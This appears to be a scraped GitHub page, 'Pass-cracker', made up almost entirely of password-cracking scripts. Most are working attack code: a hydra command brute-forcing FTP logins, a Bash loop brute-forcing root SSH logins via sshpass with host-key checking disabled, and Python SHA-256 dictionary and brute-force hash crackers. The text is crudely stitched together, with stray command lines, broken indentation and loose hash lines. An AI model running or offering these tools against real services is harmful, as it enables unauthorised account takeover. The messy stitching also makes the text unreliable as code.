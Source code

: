 # Pass-cracker 
#!/bin/bash
# Simulate brute-force by guessing a known password

passwords=("123456" "admin" "letmein" "secret123" "root")
target="secret123"

for p in "${passwords[@]}"; do
    echo "Trying: $p"
    if [ "$p" == "$target" ]; then
        echo "Password FOUND: $p"
        break
    fi
done
#!/bin/bash
# Simulated brute-force attack on a target password (for learning only)

target="hunter2"  # The correct password
wordlist="wordlist.txt"

while IFS= read -r password; do
    echo "Trying: $password"
    if [ "$password" == "$target" ]; then
        echo "[+] Password found: $password"
        exit 0
    fi
done < "$wordlist"

echo "[-] Password not found"
chmod +x bruteforce.sh
hydra -l admin -P wordlist.txt ftp://192.168.1.100
#!/bin/bash

target="192.168.1.100"
username="root"
wordlist="wordlist.txt"

while IFS= read -r password; do
    echo "Trying password: $password"
    
    sshpass -p "$password" ssh -o StrictHostKeyChecking=no -o ConnectTimeout=3 $username@$target "exit" 2>/dev/null
    
    if [ $? -eq 0 ]; then
        echo "[+] Password found: $password"
        exit 0
    fi
done < "$wordlist"

echo "[-] Password not found"
import hashlib

def crack_password(hash_to_crack, wordlist_file):
    with open(wordlist_file, 'r') as file:
        for word in file:
            word = word.strip()
            word_hash = hashlib.sha256(word.encode()).hexdigest()
            print(f"Trying: {word}")
            if word_hash == hash_to_crack:
                print(f"[+] Password found: {word}")
                return
    print("[-] Password not found.")

# Example usage
hash_to_crack = hashlib.sha256("secret123".encode()).hexdigest()
crack_password(hash_to_crack, "wordlist.txt")
import hashlib

# Target SHA-256 hash (this is of "secret123")
target_hash = "fcf730b6d95236ecd3c9fc2d92d7b6b2bb061514961aec041d6c7a7192f592e4"

# Load wordlist from file
def load_wordlist(filepath):
    try:
        with open(filepath, 'r') as f:
            return [line.strip() for line in f.readlines()]
    except FileNotFoundError:
        print(f"[-] Wordlist file not found: {filepath}")
        exit()

# Brute-force function
def crack_sha256_hash(hash_to_crack, wordlist):
    for word in wordlist:
        hashed_word = hashlib.sha256(word.encode()).hexdigest()
        print(f"Trying: {word}")
        if hashed_word == hash_to_crack:
            print(f"[+] Password found: {word}")
            return
    print("[-] Password not found.")

# Main
if __name__ == "__main__":
    wordlist = load_wordlist("wordlist.txt")
    crack_sha256_hash(target_hash, wordlist)
    import hashlib
import itertools
import string

# Target SHA-256 hash (this is "abc")
target_hash = "ba7816bf8f01cfea414140de5dae2223b00361a396177a9cb410ff61f20015ad"

# Character set to use
charset = string.ascii_lowercase  # You can also add digits, symbols, etc.

# Brute-force password generator
def crack_sha256(target_hash, max_length):
    for length in range(1, max_length + 1):
        for guess in itertools.product(charset, repeat=length):
            password = ''.join(guess)
            hashed = hashlib.sha256(password.encode()).hexdigest()
            print(f"Trying: {password}")
            if hashed == target_hash:
                print(f"[+] Password found: {password}")
                return password
    print("[-] Password not found.")
    return None

# Run
if __name__ == "__main__":
    crack_sha256(target_hash, max_length=4)  # Increase to 5 or 6 for harder guesses
    import hashlib
import itertools
import string

# Load hashes from file into a set
def load_hashes(filename):
    try:
        with open(filename, 'r') as f:
            return set(line.strip() for line in f if line.strip())
    except FileNotFoundError:
        print(f"[-] Could not find {filename}")
        exit()

# Brute-force generator for passwords
def brute_force_hashes(hash_set, charset, max_length):
    found = {}

    for length in range(1, max_length + 1):
        for guess_tuple in itertools.product(charset, repeat=length):
            guess = ''.join(guess_tuple)
            guess_hash = hashlib.sha256(guess.encode()).hexdigest()

            if guess_hash in hash_set:
                print(f"[+] Match found! {guess} => {guess_hash}")
                found[guess_hash] = guess
                if len(found) == len(hash_set):
                    return found
            else:
                print(f"Trying: {guess}")

    return found

# Main
if __name__ == "__main__":
    charset = string.ascii_lowercase  # Add more: + string.digits or string.ascii_letters
    max_length = 4  # Adjust for difficulty

    hash_file = "hashes.txt"
    hashes = load_hashes(hash_file)
    results = brute_force_hashes(hashes, charset, max_length)

    print("\n=== Cracked Passwords ===")
    for h in hashes:
        if h in results:
            print(f"{h} : {results[h]}")
        else:
            print(f"{h} : [Not found]")
        ba7816bf8f01cfea414140de5dae2223b00361a396177a9cb410ff61f20015ad  # 'abc'
2e7d2c03a9507ae265ecf5b5356885a5e48eebf11c9c6f78dfb58b6c7d38fddb  # '123'
control+shift+m 
